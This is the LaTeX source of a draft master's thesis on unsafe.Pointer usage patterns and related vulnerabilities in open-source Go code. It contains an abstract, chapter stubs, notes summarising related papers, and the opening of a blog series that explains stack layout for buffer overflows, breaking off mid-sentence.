\documentclass[
    english,
    ruledheaders=section,
    class=report,
    thesis={type=master},
    accentcolor=9c,
    custommargins=false,
    marginpar=false,
    %BCOR=5mm, %Bindekorrektur, falls notwendig
    parskip=half-,
    fontsize=11pt,
    logofile=assets/images/tuda_logo,
]{tudapub}

\usepackage[utf8]{inputenc}
\usepackage[ngerman, english]{babel}
\usepackage[autostyle]{csquotes}
\usepackage{hyperref}
\usepackage{microtype}

\usepackage{enumitem}
\usepackage{setspace}
\setstretch{1.1}

\usepackage[none]{tocbibind}

\usepackage{longtable}
\usepackage{booktabs}

\newcommand{\todo}[1]{{\color{red}{\textbf{TODO: }#1}}}
\newcommand{\checkNum}[1]{{\textcolor{orange}{\textit{#1}}}}

\setlength{\parindent}{0em}
\setlength{\parskip}{1em}

\begin{document}

%% thesis cover page
\title{Identification and Analysis of unsafe.Pointer Usage Patterns in Open-Source Go Code}
\subtitle{It's dangerous to Go alone. Take *this!\\~}
\author{Johannes Tobias Lauinger}
\reviewer{Prof. Dr.-Ing. Mira Mezini \and Anna-Katharina Wickert, M.Sc. \and Dr. rer. nat. Lars Baumgärtner}
\department{inf}
\institute{Software Technology Group}
\submissiondate{\today}
\examdate{\today}
%\tuprints{urn=1234,printid=12345}
\dedication{To fritz, without which none of this\\would have happened.}

\Metadata{
    title={Identification and Analysis of unsafe.Pointer Usage Patterns in Open-Source Go Code},
    author={Johannes Tobias Lauinger}
}

\maketitle

%% abstract and Zusammenfassung
\chapter*{Abstract}

After \checkNum{one decade} since its first published version, the Go programming language has become a popular and
widely used systems programming language.
It aims to achieve thorough memory and thread safety by using compile-time measures such as a strict type system that
prevents invalid memory access.
However, there is also the \unsafe{} package which allows developers to deliberately circumvent this safety net.
There are a number of legitimate use cases for doing this, for example a low-level network protocol implementation that
needs access to the raw byte representation of some data, or an in-place type conversion saving reallocation costs to
improve efficiency.

Misusing the \unsafe{} API can however lead to security vulnerabilities such as buffer overflow and use-after-free bugs.
This work contributes an analysis of \unsafe{} usage patterns with respect to a security context.
It reveals possible code injection and information leak vulnerabilities in proof-of-concept code as well as common code
usages from real-world code.

To assess the risk of \unsafe{} code in their applications, this work presents \toolGeiger{}, a novel tool to help
developers quantify \unsafe{} usages not only in their project itself but including its dependencies.
Using \toolGeiger{}, we conducted a study on \unsafe{} usage in the top \projsTotal{} most popular open-source Go
projects on \github{}, including a manual study of \numberLabeledCodeSnippets{} individual code samples on how \unsafe{}
is used and for what purpose.
The study shows that \percentageUnsafePackages{} of packages imported by the projects using the Go module system use
\unsafe{}.
\percentageUnsafeProjects{} of the projects use \unsafe{} directly, but \percentageUnsafeTransitiveWithDependencies{}
include \unsafe{} usages through any of their dependencies.
A replication and comparison of a concurrent study by Costa et al.~\cite{costa2020} matches these results.

This work further presents \toolSafer{}, a novel static code analysis tool that helps developers to identify
\checkNum{two} dangerous and common misuses of the \unsafe{} API which were previously undetected with existing tools.
Using \toolSafer{}, we identified \numberBugsFixed{} bugs in real-world code and submitted patches to the maintainers.
An evaluation of the tool shows \goSaferEvaluationDatasetGosaferAccuracy{} accuracy on my data set of labeled \unsafe{}
usages, and \goSaferEvaluationPackagesGosaferAccuracy{} accuracy on a set of manually inspected open-source Go packages.


\chapter*{Zusammenfassung}

Nach \checkNum{einem Jahrzehnt} seit der ersten veröffentlichten Version ist die Programmiersprache Go heute eine
beliebte und weit verbreitete Systemprogrammierungssprache.
Sie strebt Speicher- und Threadsicherheit durch Compiler-Maßnahmen wie ein striktes Typsystem, das
ungültige Speicherzugriffe verhindert, an.
Es gibt allerdings ebenfalls das \unsafe{} Package, eine API die es Entwickler*innen erlaubt, diese
Maßnahmen zu umgehen.
In manchen Fällen kann dies gerechtfertigt sein, beispielsweise bei der Implementierung eines
Netzwerkprotokolls, das direkten Zugriff auf die konkreten Daten benötigt, oder zur Konvertierung von Daten in einen
anderen Typ, ohne diese im Speicher zu kopieren, um so die Effizienz des Programms zu steigern.

Eine falsche Benutzung der \unsafe{} API kann jedoch zu Sicherheitsproblemen wie Buffer Overflows und Use-After-Frees
führen.
Diese Arbeit analysiert Verwendungsmuster von \unsafe{} Code im Hinblick auf Sicherheitsrisiken.
Dabei treten mögliche Code Injection und Information Leak Verwundbarkeiten sowohl in Proof-of-Concepts als auch in
realem Anwendungscode zu Tage.

Um die Risiken durch \unsafe{} Code in Anwendungen abzuschätzen, stellt diese Arbeit \toolGeiger{} vor, ein neues
Werkzeug das Entwickler*innen dabei hilft, \unsafe{} Nutzungen nicht nur in ihren Projekten sondern auch in deren
Abhängigkeiten zu finden.
Mit \toolGeiger{} führen wir eine Studie zur Nutzung von \unsafe{} in den Top \projsTotal{} beliebtesten Open-Source Go
Projekten auf \github{}, inklusive einer manuellen Analyse von \numberLabeledCodeSnippets{} individuellen Codestücken
in Bezug darauf wie und zu welchem Zweck \unsafe{} benutzt wird.
Die Studie zeigt, dass \percentageUnsafePackages{} der Packages, die von Projekten die das Go Modules System
unterstützen, importiert werden, \unsafe{} verwenden.
\percentageUnsafeProjects{} der Projekte nutzen \unsafe{} direkt, und \percentageUnsafeTransitiveWithDependencies{}
enthalten \unsafe{} Code durch ihre Abhängigkeiten.
Eine Replikation sowie ein Vergleich mit einer zeitgleichen Studie von Costa et al.~\cite{costa2020} bestätigt diese
Ergebnisse.

Weiterhin präsentiert diese Arbeit \toolSafer{}, ein neues statisches Analysewerkzeug, das Entwickler*innen hilft,
\checkNum{zwei} gefährliche und häufig vorkommende inkorrekte Verwendungen der \unsafe{}, die mit bisher existierenden
Tools nicht gefunden werden, zu identifizieren.
Mittels \toolSafer{} konnten wir \numberBugsFixed{} Fehler in realem Code finden und entsprechende Patches einreichen.
Eine Evaluation des Tool ergibt eine Accuracy von \goSaferEvaluationDatasetGosaferAccuracy{} auf meinem Datensatz von
\unsafe{} Codezeilen, und \goSaferEvaluationPackagesGosaferAccuracy{} Accuracy auf händisch analysierten Open-Source
Go Packages.


%% acknowledgments
\chapter*{Acknowledgments}

This thesis was written at Technische Universität Darmstadt under the supervision of Prof. Dr.-Ing. Mira Mezini,
Dr. rer. nat. Lars Baumgärtner, and Anna-Katharina Wickert, M.Sc.
Parts of this work have been submitted as a research paper titled "Uncovering the Hidden Dangers: Finding Unsafe Go Code
in the Wild", which is accepted at the 19th IEEE International Conference on Trust, Security and Privacy in
Computing and Communications (IEEE TrustCom 2020)~\cite{lauinger2020}.
I explicitly acknowledge the contributions of the co-authors Lars Baumgärtner, Anna-Katharina Wickert, and Mira Mezini.
I made sure to properly cite all relevant prior and concurrent work as usual with the standards on scientific ethics
to clearly show which contributions are derived from the work of other people and which are mine.

I would like to thank Lars, Anna, and Mira for their excellent work supervising this thesis.
I could not imagine having had any better support during the past months.
Our regular meetings have had priceless value for the success for this work.
Especially, I want to thank Anna for restoring my motivation in challenging times, and Lars for his honest and
demanding, but always very helpful feedback.

In addition, I want to thank my family for giving me both moral and financial support throughout my entire studies,
always believing in me and having my back, and my girlfriend for cheering me up even in the most stressful and hard
days.
In fact especially in those days.
Finally, a big thank you to my friends who have made the past years at university the great time that it has been, Timo
for letting me switch offices for a couple of days, and Anna, John, Tim, Tobias, and Yvonne.


%% table of contents
\tableofcontents

%% content chapters
%% -----------------------------------------------------------------------------

\chapter{Introduction}\label{ch:introduction}


%% -----------------------------------------------------------------------------

\section{Motivation}\label{sec:motivation}

In today's modern society, ...

Modern programming languages like Rust and Go have mechanisms to protect potential
unsafe usages, e.g., dereferences of raw pointers or modifying static variables. Thus, it is
recommended to avoid unsafe usages. However, if a developer wants to avoid unsafe
usages and potential security vulnerabilities caused by these usages, they do not only need
to check their code but also their dependencies.

To provide a developer the power to understand the unsafe usages within their code base,
tools like cargo-geiger~\cite{cargogeiger} exists. Unfortunately, such a tool does not exist by today for Go.
Thus, an in-depth analysis of how many Go projects include direct and indirect unsafe
usages and if these projects are vulnerable does not exist, e.g., to buffer overflows~\cite{larochelle2001, alnaeli2017, wang2020}.
Within this work, the aim is to develop a tool, probably based on go vet~\cite{govet}, that can identify
unsafe usages in Go projects - similar to cargo-geiger. Based on this tool, the thesis should
evaluate how common unsafe usages in Go are and try to analyze if vulnerabilities caused
by unsafe usages exist.

\begin{figure}
    \centering
    
\includegraphics[width=4cm]{assets/images/uml}
    \caption{Sample UML Diagram}
    \label{fig:uml_example}
\end{figure}



%% -----------------------------------------------------------------------------

\section{Contributions}\label{sec:contributions}

The contributions of this thesis are:

\begin{enumerate}
    \item A large-scale study of unsafe code usage in the 500 most popular open-source Go projects,
    including the identification of (three) main areas of danger
    \item A small-scale, in-depth study of 1000 application code and 400 standard library snippets, used in 10
    selected projects, yielding a two-dimensional classification of usages and valuable insight into how and for what
    purpose unsafe code is used in Go applications
    \item A thorough analysis of the problems and consequences of unsafe code patterns with respect to a security
    context
    \item The submission of (14) pull requests with fixes to (62) previously vulnerable code snippets in open-source Go
    libraries, (10) of which have already been merged
    \item An open-source tool to identify unsafe usages in Go code including its dependencies
    \item An open-source, Go Vet-style, linter tool to find (two) unsafe usage patterns of \texttt{unsafe.Pointer}
    that were previously uncaught with existing tools
    \item (An IDE integration of these tools using plugins for JetBrains GoLand and Eclipse)
\end{enumerate}



%% -----------------------------------------------------------------------------

\section{Outline}\label{sec:outline}

Outdated.

This thesis is structured as follows: Chapter 2 gives background information on the motivation
and consequences of the safe and unsafe code language features, as well as its implementation
in the Go programming language.

Chapter 3 describes the dependency management system found in modern languages, specifically
the Go module system with respect to open source software.

Chapter 4 contains the design and implementation of a Go static analysis tool which can identify
unsafe code usages in the package as well as its dependencies.

Chapter 5 compares the analysis tool to related work on the Rust programming language and the
more general OWASP dependency checker.

Chapter 6 analyzes possible vulnerabilities caused by unsafe code usages, specifically with
respect to cryptographic APIs.

Chapter 7 contains a survey and analysis of the top 500 most popular open source Go projects
with respect to their usage of unsafe code in the project or its dependencies. It also has an
analysis of identified security vulnerabilities.

Finally, chapter 8 concludes the work with a discussion of the results and possible future work.
%% -----------------------------------------------------------------------------

\chapter{Unsafe code}\label{ch:unsafe-code}


%% -----------------------------------------------------------------------------

\section{Common vulnerabilities in systems languages}\label{sec:common-vulnerabilities}

Systems languages have many pitfalls: buffer overflows, use-after-frees, heap overflows,
...

Huge security implications, tons of bugs especially with cryptographic C code that gets
used in the internet.


%% -----------------------------------------------------------------------------

\section{Safeness guarantees in Go and Rust}\label{sec:safeness-feature}

Compiler features to statically prove upon compilation that a program does not contain any
buffer overflows etc.

Usually more verbose programming style, but enables to automatically check the program
on security vulnerabilities.

How is it syntactically achieved in Go?

How is it achieved in Rust?


%% -----------------------------------------------------------------------------

\section{Unsafe code}\label{sec:unsafe-code}

Sometimes the programmer might need to bypass the safe guards, e.g. for optimizations or
interoperability with native unsafe code, that is C libraries.

Explain language features to achieve unsafe code. How does such code look like?


%% -----------------------------------------------------------------------------

\section{Unsafe pointers in Go}\label{sec:unsafe-pointers}

In the case of Go there are unsafe pointers from the unsafe package. Explain how they
can be used, and which reasons there might be to use some.

%% -----------------------------------------------------------------------------

\chapter{Code dependencies}\label{ch:code-dependencies}

Developers should not reinvent the wheel, instead they should make use of dependencies.

Code is imported into a project. The code is reused, but the project of course also inherits
all security vulnerabilities of the dependencies.


%% -----------------------------------------------------------------------------

\section{The Go modules system}\label{sec:go-modules}

How are Go modules organized? How is the Go.mod file written? How is code imported?


%% -----------------------------------------------------------------------------

\section{Software dependency graphs}\label{sec:dependency-graphs}

Since lots of projects use the same dependencies, we can link projects in a dependency
graph that shows usage of libraries in the software landscape.


%% -----------------------------------------------------------------------------

\section{Open source dependencies}\label{sec:open-source-dependencies}

Especially open source software makes it easy to analyze the dependency graph, and with
open source it is very important to reuse dependencies because time is valuable and a lot
of open source projects are non-profit.

%% -----------------------------------------------------------------------------

\chapter{Identifying unsafe code usages in dependencies}\label{ch:implementation}

In this thesis, I implement a tool to automatically check Go dependencies. It shows unsafe
pointer usages not only in the project but within all of its dependencies.


%% -----------------------------------------------------------------------------

\section{Implementation of a dependency checker tool}\label{sec:implementation}

Show how the design decisions were made, and how the project was implemented.


%% -----------------------------------------------------------------------------

\section{Usage of the tool}\label{sec:usage}

Explain how to setup and install the tool, what options it has and how it is to be executed.


%% -----------------------------------------------------------------------------

\section{Distribution in IDE plugins}\label{sec:ide-plugins}

The tool is available as plugins for the common developer IDEs JetBrains GoLand and Eclipse.

Explain how the plugin development was done, and how to install the program. Include
screenshots.

%% -----------------------------------------------------------------------------

\chapter{Related work}\label{ch:related-work}

Put the work in context with current literature.


%% -----------------------------------------------------------------------------

\section{Dependency analysis in Rust with Cargo Geiger}\label{sec:cargo-geiger}

Cargo Geiger is the template for the Go dependency check tool.
It does the same thing for the Rust programming language.


%% -----------------------------------------------------------------------------

\section{OWASP Dependency Checker}\label{sec:owasp-dependency-checker}

Explain OWASP security project.

Show OWASP Dependency Checker program, show experimental Go extension for it.
This tool does no unsafe code analysis though, it checks for known vulnerabilities of the dependencies in the
OWASP database.


%% -----------------------------------------------------------------------------

\section{Work in progress: paper summaries}\label{sec:paper-summaries}


%% -----------------------------------------------------------------------------

\subsection{Understanding Memory and Thread Safety Practices and Issues in Real-World Rust Programs}
\label{subsec:understanding-memory-and-thread-safety-practices-and-issues-in-real-world-rust-programs}

Qin et al.~\cite{qin2020} contribute the first to their knowledge empirical study of bugs related to unsafe code blocks
in Rust.
They mention other empirical studies~\cite{difranco2017, lu2013, chou2001, leesatapornwongsa2016, jin2012, gunawi2014, gu2015}
none of which seem to be related to Rust or Go.
The authors analyze 5 projects, 5 libraries and 2 databases.
They randomly sample 850 unsafe usages out of those.
They analyze the usages, categorize them into classes, analyze the impact of the bugs and develop two new static code
checking tools.
In essence, this is exactly my thesis but done for Rust, and it's probably an excellent example of how to structure a
paper on this.

A main difference to this thesis is that the authors not only look into the current revision code, but explicitly look
through the Git history, filtering for commits that remove unsafe usages.
They further go through reported bugs on the software under analysis and look into the code how those bugs were fixed.
Bug data is retrieved from CVE and RustSec.
This is something I should probably do as well!

Within the 850 unsafe usages, the authors analyze 70 memory-safety issues and 100 concurrency bugs.
It sounds like they found all of those, but this high number is because they look at real-world bugs that were previously
reported.
Using their tools however, they also find about 5 to 10 new bugs that they disclosed to the developers.

Similar to my thesis, they explain the purpose of safe code and reasons why unsafe code might be needed.
They obviously focus on Rust, but some of the points will apply to Go as well.

The reasons to use unsafe code are clustered into these groups: Reuse existing code, convert C-array to Rust slice,
improve performance.
The authors find that often the use of unsafe code has good or unavoidable reasons.
Looking at the commit diffs, they find that unsafe code gets removed to fix memory safety, improve code structure,
improve thread safety, fix bugs, or because it was unnecessary in the first place.

The authors also look into the Rust standard library, which has similar uses of unsafe as the Go standard library.
Unsafe code often requires some preconditions on lifetime or input data to hold, and this can be achieved by encapsulating
it into an interior unsafe function that checks these conditions and might skip the unsafe code if they do not hold.

The areas of problems identified are buffer overflows, null-pointer dereferencing, reading uninitialized memory, invalid
free, use after free, and double free.
Fixing strategies were conditionally skipping the unsafe code, adjusting variable lifetime, or changing unsafe operands.

Rust also has thread safety problems, and problems the authors identified can be grouped into blocking and non-blocking.
Blocking bugs are caused due to incorrect scoping of auto-releasing mutexes.
Channels might also block.
Non-blocking bugs include data races and stem from incorrect scoping of shared data or confused ownership.

If a function's safety depends on how it is used, it might be better put into an encapsulation.

The authors suggest development of IDE extension visualizing scopes and lifetimes, development of Rust-tailored static
analysis tools (which they already contributed two), and dynamic analysis tools.
Due to the study language developers can also learn from design issues concerning the Rust language itself, because it
shows how developers adapt to new language concepts over time.


%% -----------------------------------------------------------------------------

\subsection{Is Rust Used Safely by Software Developers?}
\label{subsec:is-rust-used-safely-by-software-developers?}

Evens et al.~\cite{evans2020} present an empirical study of unsafe usages in Rust crates.
They only include statistical facts such as total number of unsage usages.
This is different from Qin et al.~\cite{qin2020} in that they did not do an in-depth analysis of potential bugs.
Still they got accepted at ICSE!

They found that most unsafe usage is to call other unsafe Rust code, while calling C code is less of a concern.
About a third of libraries contain unsafe code and more than half of them transitively do through dependencies.
The usage count in crates did not change much over the course of 10 months work.
More popular libraries are more likely to contain more unsafe code because they encapsulate more popular C libraries.

The authors conducted a N=20 survey on Reddit, revealing that 10\% of developers used unsafe to make the code compile.
Other popular reasons included performance optimizations, advanced data structures, and unsafe code offering a slicker
and "more elegant" interface.
Most developers employed more testing, static and dynamic analysis, and fuzzing when using unsafe code, but many also
said they would "look carefully on the code".
I'd suspect this is not an effective approach.

The authors developed an augmented Rust CFG and algorithm to detect potentially unsafe functions in all Rust crates that
would compile.


%% -----------------------------------------------------------------------------

\subsection{Escape from Escape Analysis of Golang}
\label{subsec:escape-from-escape-analysis-of-golang}

Wang et al.~\cite{wang2020} propose an approach to make heap memory usage in Go more effective by improving the escape
analysis algorithm.
The current algorithm is very conservative.
In particular, the authors try improve a specific type of escape analysis: passing a pointer into a function call will
make that object escape.
They contribute an optimizer that always replaces such calls by an intermediate cast of the pointer into a uintptr
variable and then back to a pointer, both through the use of unsafe.Pointer.
This breaks the escape analysis chain and will make Go escape only the new pointer to the heap, not the entire previous
data structure.
After the identification of such snippets in the code comes a verification stage that will check whether the function
call is synchronous.
In that case, the underlying variable cannot be freed before the end of the function, and the optimization is correct.
If the call is asynchronous, the optimizer checks if the variable is used in any other Goroutine, in which case the
optimization will not be done.
Otherwise it is deemed valid.

The authors mention escape analysis in other language~\cite{hill2002, hannan1998, choi1999}.

This is an interesting related work because the tool to break escape analysis, the cast to uintptr and back, is exactly
the problem in the common unsafe slice cast that I describe in the other sections.

The authors evaluate performance and correctness on 10 open-source and 10 industrial projects.
Their data set includes kubernetes.

The paper includes advertisement for a company and curiously uses Go 1.9 although the paper is to be published at ICSE
2020.


%% -----------------------------------------------------------------------------

\subsection{Why Can’t Johnny Fix Vulnerabilities: A Usability Evaluation of Static Analysis Tools for Security}
\label{subsec:why-can’t-johnny-fix-vulnerabilities:-a-usability-evaluation-of-static-analysis-tools-for-security}

Smith et al.~\cite{smith2020} conduct a developer survey on usability problems with static code analysis tools.
They contribute insights into why developers can often not get the most beneficial outcome from such tools.
The mainly analyze Java analysis tools such as Find Bugs, CheckStyle and PMD\@.

The problem areas found are code navigation issues, missing or buried information, interface scalability for large
projects (such as a huge control flow graph), inaccuracy of analysis, code disconnect (meaning the proposed fix to a
problem did not resemble the previous problem anymore), and workflow continuity (meaning the developers had to
constantly switch between the tool report and the code editor).

The authors propose as improvements a clear communication of what and how to fix, alerts that are located within the
editable source code, contextualized and meaningful notifications, and a good integration into existing development
workflows such as CI.

Minor relevance, probably cite in the chapter about the linting tools.


%% -----------------------------------------------------------------------------

\subsection{Source Code Vulnerabilities in IoT Software Systems}
\label{subsec:source-code-vulnerabilities-in-iot-software-systems}

Alnaeli et al.~\cite{alnaeli2017} contribute a study of unsafe C code patterns, that is well-known unsafe
functions such as strcpy, in IoT software.
They count how many unsafe and how many safe functions they find, and compare them with each other to discover trends.

Similar to my work, they search for unsafe code patterns in open-source code.
Similar to my work, they also look at changes over time.
In contrast to my work, they analyze C code instead of Go code.

The authors find that the systems under review have neither introduced more nor removed some of the unsafe functions
over time.
They conclude that developers might be unaware of the presence of the functions, their implications, or both.
They suggest better developer education on security-related consequences of these functions.

Minor relevance, cite in survey chapter.


%% -----------------------------------------------------------------------------

\subsection{Statically Detecting Likely Buffer Overflow Vulnerabilities}
\label{subsec:statically-detecting-likely-buffer-overflow-vulnerabilities}

In their (quite old) 2001 paper, Larochelle and David Evans~\cite{larochelle2001} write about static code analysis to
detect likely buffer overflow vulnerabilities in C code.
They cite a paper assuming that buffer overflows would still be relevant in 20 years, that would be 2019.
That would be true but I'll have to see if it makes sense to also cite this and add a comment.

Similar to my work, this is using static analysis to find problems in code.
But contrary to my work, it's for C code, not Go.
They also talk about simple overflow exploitation techniques, in the context of C\@.
I can and probably should do the same, with a focus on Go.

The authors exploit semantic comments to enable local checking of interprocedural properties, they focus on lightweight
analysis that does not add much overhead, and they use heuristics.
They conduct their study using the LClint annotation tool also developed by Evans.
They note that annotating the standard library would bring a lot of security even without annotating actual programs,
because most vulnerabilities come from using insecure or improperly used functions.
This I can use too to argue for better auditing of standard libraries and developer education as well.

The annotations available include data constraints, such as x > y, and control flow constraints such as branch-specific
annotations.


%% -----------------------------------------------------------------------------

\subsection{Vulnerable Open Source Dependencies: Counting Those That Matter}
\label{subsec:vulnerable-open-source-dependencies:-counting-those-that-matter}

Pashchenko et al.~\cite{pashchenko2018} in a quite recent study propose a way of counting relevant dependencies in a
project and identifying whether the dependencies are vulnerable.
The study is done for Java, and specifically for Maven dependency management.
The authors note that failure of identifying relevant dependencies might lead to bad allocation of development resources.

A central point is dependency scoping (production versus testing) which many studies did not incorporate in the past.
If a vulnerability is found in a dependency only relevant for testing, it might not be worth to put resources onto its
mitigation.
This is extremely relevant for me!
As of now, I also do not distinguish between testing and production library.
This is probably not even possible with the Go dependency management system.
A key insight for distiguishing this related work from my work would be to highlight the relative instability of the
incredibly new Golang dependency system compared to the very seasoned Maven system.
The authors find that around 20 \% of dependencies are for testing only (not deployed).

Furthermore, it is very important to transitively look at dependencies of dependencies because they can just as well
introduce problems into the main project.
This is something my study already perfectly does.

The authors contribute a method of determining whether a dependency is actively maintained or halted.
It is done by looking at the release cycle with an exponential smoothing model.
There are only a few vulnerabilities in halted libraries that they found, but those are especially important because
mitigation cannot be done by a simple upgrade.

The authors introduce the important concept of reliability for bug fixing.
This is, the developers are directly reliable for fixing their main package and own dependencies, and they need to
make sure their direct dependencies are up to date but cannot fix them.
The indirect, or transitive, depencies are out of responsiblity for the developers since they cannot even be upgraded
manually.
A major finding is that grouping the dependencies of a project into these reliability groups gives a better picture into
how much the developers can actually do, and the authors find that for more than 80 \% of the problems the developers
can mitigate themselves through an upgrade or fixing their own code.

Identification of vulnerabilities is done by matching code patterns to vulnerability databases both in a manual and an
automated fashion.
The developers contribute a tool that can provide annotations to the code as to which vulnerablity it might belong.

A very relevant insight for me: the authors first did an incorrect dependency popularity measurement.
They counted the times the dependency gets imported, possibly distorting the popularity if a project is decomposed into
many small own dependencies~\cite{sajnani2014}.
A better way is to count the projects that include the dependency.
I already use the second approach in Table~\ref{tbl:pull-requests} for the supplied pull requests for fixes.
However, I need to make sure in the plot generation that I use the same metrics.

The authors compare to other ecosystems such as Pip and NPM, but not Go.
For NPM, they cite a relevant study on Javascript dependency vulnerabilites~\cite{lauinger2017}, which showed that
transitive project dependencies are more vulnerable than direct dependencies.
They reason that this might be the case because developers are less aware of the existence of those dependencies, and
have less control about them.
The authors highlight that this is a finding specific to Javascript because NPM allows several versions of the same
library to be used in the same project, while Maven does not.
I need to find out if this is possible with Go modules too, I think it is not.
I think Go behaves like Maven.
However, I need to highlight that in my data survey there are of course different versions of the same library, and this
is even necessary to analyze unsafe usage over time.

Within threats to validity, the authors note that the selection of libraries was potentially biased, that the
vulnerability database may not cover all vulnerabilites, the study only used Maven, and that project IDs were approximated.

This is an extremely valuable related work that I definitely need to cite both in the background on Go dependencies
and the survey as well.


%% -----------------------------------------------------------------------------

\subsection{Do developers update their library dependencies?}
\label{subsec:do-developers-update-their-library-dependencies?}

Cite~\cite{kula2017}


%% -----------------------------------------------------------------------------

\subsection{Can automated pull requests encourage software developers to upgrade out-of-date dependencies?}
\label{subsec:can-automated-pull-requests-encourage-software-developers-to-upgrade-out-of-date-dependencies?}

Mirhosseini et al.~\cite{mirhosseini2017} answer the research question whether automated pull requests such as greenkeeper
or pyup can encourage developers to update dependencies.
They find that badges provide a good incentive to developers to keep them green by updating.
Automated pull requests offer an actionable solution to update, but notification fatigue can work against update
discipline.
That is, maintaining many open source projects can lead to a lot of pull request notifications, especially if there is
one opened for every single dependency.

The authors analyze about 7,400 Github projects, grouped into badges, automated pull requests, and a baseline.
Automated pull requests lead to 1.6 times, badges to 1.4 higher probability to update.
Pull requests also mean faster updates.
On purpose, they use a broad sample of Github projects instead of the most popular ones.
This is something I should talk about too in my work!
In summary, both versions of update helpers had a positive impact, with pull requests being in the lead.

A surprising finding was that only about 30 \% of automated PRs was merged, compared to about 80 \% of general PRs.
Some merged update PRs were also downgraded again after some days, hinting incompatibilities introduced.
Using CI correlated with marginally higher merge rate.

They also conduct a developer survey.
Developers had mixed feelings about badges versus automated pull requests.
They suggested to use batched updates, resulting in fewer pull requests and less fatigue.

The authors identified through survey different updating strategies: quick, scheduled, reactive.
A developer said, reasoned through possible new errors in libraries and minor benefits, that in the reality of commercial
software engineering, staying on bleeding edge library versions usually costs more than it benefits, and the better
approach is to update infrequently.
My work should act on this and argue that this is true for feature releases but very bad for security releases.
Maybe one could do something with semver here.

The survey also showed that a single bad update of one library can very strongly cause developers to be reluctant from
updating in the future.
From this, we can argue for high responsible in library releasing to not destroy the necessary environment for timely
ships of security fixes.

The authors further cite another work stating that vulnerabilities are often contained in dependencies~\cite{xia2014}.
CI is not always a guarantee that an update does not break the software.
Badges can counteract fatigue, and more importantly they rely on a different mechanism: social pressure.

This has very relevance for me because of the survey on update preferences.
It is interesting to cite this within the argument that libraries must be updated in order to remove already fixed
vulnerabilities from dependent projects.


%% -----------------------------------------------------------------------------

\subsection{Understanding the Origins of Mobile App Vulnerabilities: A Large-scale Measurement Study of Free and Paid Apps}
\label{subsec:understanding-the-origins-of-mobile-app-vulnerabilities:-a-large-scale-measurement-study-of-free-and-paid-apps}

Cite~\cite{watanabe2017}

%% -----------------------------------------------------------------------------

\chapter{Code vulnerabilities due to unsafe code}\label{ch:code-vulnerabilities}

This chapter provides an in-depth security analysis of unsafe code usage.


%% -----------------------------------------------------------------------------

\section{Cryptographic APIs}\label{sec:cryptographic-apis}

Show common designs of cryptographic APIs, especially those that are accessible from
within Go.


%% -----------------------------------------------------------------------------

\section{Vulnerability analysis}\label{sec:vulnerability-analysis}

Work out vulnerabilities that arise from the usage of unsafe code, both in the context
of cryptographic APIs and general APIs.


%% -----------------------------------------------------------------------------

\section{Possible countermeasures}\label{sec:countermeasures}

Provide countermeasures against the identified vulnerabilities.

%% -----------------------------------------------------------------------------

\chapter{Unsafe code usage in popular Go projects}\label{ch:survey}

A major contribution of this thesis is an analysis of unsafe code usage in the wild:
the top 500 most popular open source Go projects.


%% -----------------------------------------------------------------------------

\section{Most popular open source Go projects}\label{sec:most-popular-projects}

From Github, these are the most popular Go projects.

Explain how they can be found and downloaded using the Github API.


%% -----------------------------------------------------------------------------

\section{Analysis of unsafe code using the tool}\label{sec:survey}

Show the results of running the dependency checker tool against the repositories.


%% -----------------------------------------------------------------------------

\section{Identified security vulnerabilities}\label{sec:identified-vulnerabilities}

These security patterns and vulnerabilities were found.

%% -----------------------------------------------------------------------------

\chapter{Conclusions}\label{ch:conclusions}

Put the findings in context.


%% -----------------------------------------------------------------------------

\section{Discussion of the findings}\label{sec:discussion}

This was hard to implement, this was easy.

In the analysis of the top 500 projects, this stood out.

Do some work dude!


%% -----------------------------------------------------------------------------

\section{Future work}\label{sec:future-work}

This work based on the contributions of this thesis might be done in the future.
%% -----------------------------------------------------------------------------

\chapter{Blog Post Series}


%% -----------------------------------------------------------------------------

\section{Part 1}

Go in general is a safe language. It has memory builtin safety measures that should avoid common buffer overflow 
vulnerabilities, like they often exist in C programs.

The unsafe standard library package defeats this memory safety. With unsafe.Pointer, we can create a pointer of 
arbitrary type. The compiler can't and won't enforce safety measures on this type of pointer.

In this first of a four-part, weekly series on practically exploiting unsafe.Pointer usage, we will cover the possibilities
that come with unsafe.Pointer and look at a first potential vulnerability: an information leakage.


\textbf{What is this about?}

So why did I write this blog post? I am a computer science student at TU Darmstadt, Germany. I am currently writing my
Master's thesis on an analysis of real-world usage patterns of the Go unsafe package. As part of the research, I look
into actual use cases of unsafe.Pointer references in the biggest open source Go projects, analyze and categorize them,
and identify potentially dangerous patterns and vulnerabilities. I am also comparing the unsafe features of Go to the
unsafe mode in Rust [[4]](references), as there are some similarities.

As a first step in finding out which usage patterns are dangerous, I created some artificial proof of concepts that
demonstrate applications that are vulnerable due to a wrong use of unsafe.Pointer. While doing this, I figured this
could be an interesting read or even short exercise for Go developers. If you have some ideas or thoughts on this topic,
I'd be very happy to know!

So grab your favorite beverage, fire up your code editor of choice, and enjoy this little journey covering different
types of vulnerabilities. We will look at the exact problem in the code and explain why it arises, and discuss possible
means of introducing such a problem in the real world.


\textbf{Buffer overflows, part 1: the stack layout }

Let's start with a short discussion of the stack. A stack is a data structure that grows like a tower of things. New 
items can be pushed onto the stack, and items on the stack can be removed or popped. A CPU uses a stack to keep track 
of data that is meaningful in the current context. Most importantly, it is used for calling functions. The stack used 
in the x8664 architecture is an area in the RAM which is identified by the stack pointer register rsp.

Pushing something onto the stack is done be decrementing the stack pointer by some amount, e.g. a processor word (8 byte
on 64-bit architecture). Then the data is written to the address where the stack pointer now points to. Decrementing the
stack pointer marks the memory region as belonging to the stack. When popping values from the stack, the stack pointer
is incremented again, marking the memory region as free again. Because the stack pointer decrements with new data, we
can say that the stack grows to the bottom, starting from high addresses in memory and growing to low addresses.


When the current program calls a function, the return address as well as some function parameters (more on this in part
3 of this series) are pushed onto the stack, and the processor jumps to the first instruction of the function. This jump is done
by setting the instruction pointer register rip. Then, when the function returns (by executing the ret instruction),
the return address is popped from the stack and put into the rip register. More on this can be read in [[2]](references).

The function can store local variables on the stack (inside its so-called stack frame). These are pushed onto the stack
after the return address and saved registers, meaning the variables are at lower memory addresses than the return 
address. Furthermore, variables on the stack are located directly next to each other. This is why bounds checking is 
very important for buffers. Reading or writing outside the bounds of a variable means we are reading or writing other 
